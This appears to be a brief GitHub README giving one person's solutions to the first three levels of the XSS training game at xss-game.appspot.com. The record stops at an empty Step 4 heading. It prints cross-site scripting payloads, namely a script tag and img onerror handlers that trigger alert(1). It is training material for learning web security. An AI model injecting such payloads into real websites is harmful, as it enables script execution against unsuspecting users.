 # Game-xss
My solutions for https://xss-game.appspot.com

##Step 1
```javascript
<script>alert(1);</script>
```
##Step 2
```html
<img src="forbidden" onerror="alert('1')" />
```
##Step 3
Replace
```html
<img src="/static/level3/cloud3.jpg">
```
to
```html
<img src="/static/level3/#6.jpg" onerror="alert(1)">
```
##Step 4
